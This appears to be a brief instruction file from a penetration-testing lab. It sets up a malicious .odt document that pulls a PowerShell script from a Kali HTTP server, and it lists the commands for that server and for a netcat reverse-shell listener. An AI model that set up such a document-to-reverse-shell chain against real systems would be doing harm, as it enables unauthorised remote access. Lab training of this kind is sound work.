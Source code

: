 # Instructions
### 1 - Update .odt file with Kali Station LHOST IP (keep port 80)
### 2 - Update offsec.ps1 with Kali Station <LHOST_IP> and <LPORT>
### 3 - Start python server in offsec.ps1 directory: python3 -m http.server 80
### 4 - Start nc listener: nc -nlvp <LPORT>
